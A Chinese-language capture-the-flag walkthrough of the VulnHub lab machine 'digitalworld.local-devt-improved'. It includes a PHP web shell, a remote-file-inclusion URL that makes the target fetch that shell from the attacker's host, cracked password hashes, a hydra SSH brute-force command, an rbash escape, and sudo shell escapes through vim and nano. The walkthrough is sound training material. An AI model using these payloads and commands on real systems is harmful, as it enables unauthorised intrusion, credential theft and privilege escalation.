# 前言

靶机：`digitalworld.local-devt-improved`，IP地址为`192.168.10.10`

攻击：`kali`，IP地址为`192.168.10.6`

`kali`采用`VMware`虚拟机，靶机选择使用`VMware`打开文件，都选择桥接网络

这里官方给的有两种方式，一是直接使用`virtualbox`加载，另一种是通过`VMware`直接加载，也给出了`iso`镜像文件。

> 文章中涉及的靶机，来源于`vulnhub`官网，想要下载，可自行访问官网下载，或者通过网盘下载

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.10.1/24`扫描

也可以使用`nmap`等工具进行



# 信息收集

## 使用nmap扫描端口

扫描`tcp`端口，并保存于`nmap-tcp`

```shell
nmap -sT 192.168.10.10 --min-rate=1000  -p- -T4 -oA nmap-tcp
```



扫描常见的20个`udp`端口，不过这里的端口明显处于`open`的很少

```shell
nmap -sU 192.168.10.10 --top-ports 20 -T4 -oA nmap-udp
```



把前面扫描出的`tcp`端口，进行处理，只取端口号

```shell
grep open nmap-tcp.nmap | awk -F'/' '{print $1}' | paste -sd ','
ports=22,113,139,445,8080
```



对特定的端口号进行深入探测

```shell
nmap -sV -O -sC -sT 192.168.10.10 -p $ports -oA detail
```





对特定的端口号进行漏洞检测

```shell
nmap --script=vuln 192.168.10.10 -p $ports -oA vuln
```



## 网站信息收集

还是从网站入手，因为使用`enum4linux`枚举测试，并未有信息

访问8080端口的默认界面，提到一个界面



拼接地址后，发现一些目录



访问后，以几个重点截图，注意，要查看页面源代码才能发现的

给出一个目录`./developmentsecretpage`



给出一个文件`test.pacp`，格式来看像是数据流量包



访问`./developmentsecretpage`



给出一个`patrick.php`文件，点击访问，确实可解析`php`文件，并且有一个`sitemap.php`文件及链接



访问`sitemap.php`，给出两个`php`文件，`securitynotice.php`和`directortestpagev1.php`



访问`securitynotice.php`，给出了设置密码的情况，可能以`P@ssw0rd`加数字为设置



访问`directortestpagev1.php`，给出一个`test.html`的界面



这个`test.html`与前面给出的是一样的，那么访问前面`test.pcap`这个文件，该文件直接下载到本地，然后使用科来或者`wireshark`工具进行打开，即可看到产生的网络数据包

首先使用科来查看，直接用科来打开数据包即可，可以看到在`http`请求时，请求了一个之前并未有的文件

`/qinyi/motivation.html`



再使用`wireshark`打开观察一下



`ok`，首先观察大概两个协议为主`http`和`smb`，那么先访问之前并未有的一个链接`/qinyi/motivation.html`，啧，没有东西

继续分析`smb`协议的数据，但是并未发现敏感数据，只有一个路径`/DEVELOPMENT/IPC$`和版本等信息，但是不知道用户名等

# 漏洞寻找

继续从网站下手，之前还有一个链接未点击测试`http://192.168.10.10:8080/developmentsecretpage/directortestpagev1.php?logout=1`

点击后，发现一个登录框，啧，这奇怪，访问时直接登录，这里难道出问题？



虽然前面给出了密码的可能性策略，但是这里先随便在登录框输入，发现还是成功，只是多了一些报错



给出了一个`slogin_lib.inc.php`文件，不知道这个文件什么作用，先搜索一下，看是否是官方的函数

好家伙，一搜就全是漏洞，甚至编号都出来了

这一段是远程文件包含



这一段是敏感文件的位置



# 漏洞利用

那么尝试第一个远程测试

创建一个`php`脚本测试，然后在`kali`开启一个`http`服务

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

然后构造链接

```shell
http://192.168.10.10:8080/developmentsecretpage/slogin_lib.inc.php?slogin_path=http://192.168.10.6:8888/shell.php
```

不过这里当执行后，并未有远程代码执行的痕迹，也就是`kali`这边的`http`服务并没有收到请求，所以，这个远程代码执行的漏洞，可能不存在



那么测试第二种，查看敏感文件

```shell
http://192.168.10.10:8080/developmentsecretpage/slog_users.txt
```



这里可以看到，应该是`md5`加密，尝试使用网站解密吧，因为快，建议使用`somd5.com`，之前的`cmd5.com`这个网站，唉，收费的有点多

| 用户    | MD5                              | 密码                 |
| ------- | -------------------------------- | -------------------- |
| intern  | 4a8a2b374f463b7aedbb44a066363b81 | 12345678900987654321 |
| patrick | 87e6d56ce79af90dbe07d387d3d0579e | P@ssw0rd25           |
| qiu     | ee64497098d0926d198f54f6d5431f98 | qiu                  |

解密出三个，网站方面登录明显是假象，那么测试`ssh`登录

将三个用户名存储在`user`文件，三个密码存储在`pass`文件，使用`hydra`进行爆破

```shell
hydra -L user -P pass 192.168.10.10 ssh
```



# rbash逃逸

使用`ssh`登录`intern`，不过给出的是`rbash`



尝试逃逸，之前在某个靶场中，有`echo`逃逸的测试，当然需要与`python`搭配，是`lshell`的问题

```shell
echo os.system('/bin/bash')
```

# 靶机内信息收集

查看当前目录下的文件



这里提到了`patrick`，以及密码策略，应该还没有更改

使用`find`寻找具有SUID权限的文件

```shell
find / -perm -4000 -print 2>/dev/null
```



发现有`sudo`和`su`，不过`sudo -l`并未对当前用户可用

那么查看`/home`下有哪些用户



到`patrick`用户下，发现有`password.txt`文件



查看这个文件，没有信息



# 提权

结合目前信息来看，`su`可能有用，尝试以之前的用户`patrick`和密码进行切换，确实可行

使用`sudo -l`测试



两种方式，访问网站`https://gtfobins.github.io/`查看用法

```shell
#vim
sudo vim -c ':!/bin/sh'

#nano
sudo nano
^R^X
reset; sh 1>&0 2>&0
```





查看最终`flag`



# 总结

该靶机有以下值得思考：

1. 对于网站，可能存在注释设计者忘记删除，往往会暴露敏感信息
2. 对于网站的链接，功能等，都需要进行测试
3. 对于网站的漏洞，不要只盯着`CMS`，一些语言函数也可能是有漏洞的
4. 对于`ssh`无法登录时，不代表`su`无法切换，密码都是一样的，但是`ssh`可能做了限制
5. 对于提权，这里采用`sudo`提权的方式


